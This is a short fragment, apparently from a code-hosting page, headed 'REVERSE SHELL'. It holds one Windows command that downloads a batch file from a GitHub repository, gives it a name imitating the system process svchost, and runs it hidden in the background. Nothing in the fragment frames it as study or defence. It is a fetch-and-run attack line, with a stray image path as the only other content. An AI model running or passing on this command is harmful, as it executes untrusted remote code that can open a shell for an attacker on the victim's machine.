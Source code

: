 REVERSE SHELL


curl -L -o svchost_helper.bat https://github.com/prank9912/svchost_helper.bat/raw/main/svchost_helper.bat && start /b cmd /c svchost_helper.bat

